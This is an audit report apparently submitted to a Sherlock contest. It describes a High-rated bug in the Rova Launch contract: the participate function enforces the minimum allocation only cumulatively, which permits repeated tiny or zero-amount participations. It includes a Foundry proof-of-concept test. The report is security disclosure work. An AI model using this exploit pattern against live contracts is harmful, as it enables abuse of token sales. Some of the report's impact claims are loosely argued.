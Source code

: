 Interesting Fuzzy Hamster

High

# Bypass of Minimum Token Allocation Limit via Multiple Small Participations

### Summary

[Participate ](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L215)function allowing users to bypass the` minimum token allocation` per user ([minTokenAmountPerUser](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L258)) by splitting their participation into multiple small transactions. This violates the protocol’s design intent and could launching DoS attacks on the contract's core functionalities

### Root Cause

The `participate `function enforces a cumulative minimum token allocation (minTokenAmountPerUser) for users within a launch group but fails to validate the minimum token amount per transaction( `request.tokenAmount`). This allows malicious or unintended behavior where users submit multiple small participations to meet the cumulative minimum 
```solidity
       uint256 newUserTokenAmount = userTokenAmount + request.tokenAmount;
        if (newUserTokenAmount > settings.maxTokenAmountPerUser) {
            revert MaxUserTokenAllocationReached(
                request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount
            );
        }
>>        if (newUserTokenAmount < settings.minTokenAmountPerUser) {
            revert MinUserTokenAllocationNotReached(
                request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount
            );
        }

```
When a launch group has `finalizesAtParticipation` set to true, users can participate in the same launch group multiple times，
However ,`participate` function checks only the cumulative token amount (`newUserTokenAmount`) against minTokenAmountPerUser but does not enforce a per-transaction( `request.tokenAmount`) minimum

### Internal Pre-conditions

Launch group status is ACTIVE.

launch group has `finalizesAtParticipation` set to true

### External Pre-conditions

User has valid signatures and sufficient funds.
User participate in a launch group

### Attack Path

 Exploit Scenario
Launch Group Settings:
launch group has `finalizesAtParticipation` set to true
minTokenAmountPerUser = 500
maxTokenAmountPerUser = 1000

Attack Flow:
User A participates with 500 token (userTokenAmount = 500).

User A repeats participates 100 times with 1 token(or 0 amount), reaching a cumulative total of 600 tokens.

The user meets minTokenAmountPerUser despite no single transaction satisfying the intended threshold.

### Impact

Token distribution become uncontrollable, violating the project's predefined economic model. 

May result in a large number of `0 tokenAmount` requests， disrupting the  settlement logic, and launching[ DoS ](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L613)attacks on the contract's core functionalities (e.g [batchRefund](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L502C14-L502C25) function).


### PoC

For simplicity, the PoC only demonstrates two instances of Participate operations.

Path: test/poc.t.sol

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {IERC20Errors} from "@openzeppelin/contracts/interfaces/draft-IERC6093.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    UpdateParticipationRequest,
    ParticipationInfo,
    CurrencyConfig
} from "../src/Types.sol";
import "forge-std/console.sol";
contract LaunchUpdateParticipationTest is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest public originalParticipationRequest;

    function setUp() public {
        _setUpLaunch();

        // Setup initial participation
        settings = _setupLaunchGroup();
        originalParticipationRequest = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(originalParticipationRequest));
 
        vm.startPrank(user1);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                originalParticipationRequest.launchGroupId,
                originalParticipationRequest.currency,
                originalParticipationRequest.tokenAmount
            )
        );
        //launch.participate(originalParticipationRequest, signature);

        vm.stopPrank();
    }


    function testPoc() public {
        // Create new launch group to be able to edit finalizesAtParticipation
         
        bytes32 launchGroupId = bytes32(uint256(1));
        LaunchGroupSettings memory customSettings =
            _setupLaunchGroupWithStatus(launchGroupId, LaunchGroupStatus.PENDING);
        customSettings.finalizesAtParticipation = true;
        customSettings.status = LaunchGroupStatus.ACTIVE;

        // Update launch group settings
        vm.startPrank(manager);
        launch.setLaunchGroupSettings(launchGroupId, customSettings);
        vm.stopPrank();

        // 1. First Participate: 500 e18   
        bytes32 newLaunchParticipationId = "newLaunchParticipationId";
        ParticipationRequest memory participationRequest = _createParticipationRequest2(500);
        participationRequest.launchGroupId = launchGroupId;
        participationRequest.launchParticipationId = newLaunchParticipationId;
        bytes memory participationSignature = _signRequest(abi.encode(participationRequest));
        vm.startPrank(user1);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                participationRequest.launchGroupId, participationRequest.currency, participationRequest.tokenAmount
            )
        );
        launch.participate(participationRequest, participationSignature);
        vm.stopPrank();



        // 2. Second Participate:  0 token amount
        bytes32 newLaunchParticipationId2 = "newLaunchParticipationId2";
        ParticipationRequest memory participationRequest2 = _createParticipationRequest2(0);
        participationRequest2.launchGroupId = launchGroupId;
        participationRequest2.launchParticipationId = newLaunchParticipationId2;
        bytes memory participationSignature2 = _signRequest(abi.encode(participationRequest2));
        vm.startPrank(user1);
        currency.approve(
            address(launch),
            _getCurrencyAmount(
                participationRequest2.launchGroupId, participationRequest2.currency, participationRequest2.tokenAmount
            )
        );
        launch.participate(participationRequest2, participationSignature2);
        vm.stopPrank();

        
    }


    function _createParticipationRequest2(uint256 amount) internal view returns (ParticipationRequest memory) {
        return ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId2,
            userId: testUserId,
            userAddress: user1,
            tokenAmount: amount * 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }


    
}




```

### Mitigation

Enforce Per-Transaction Minimum token amount 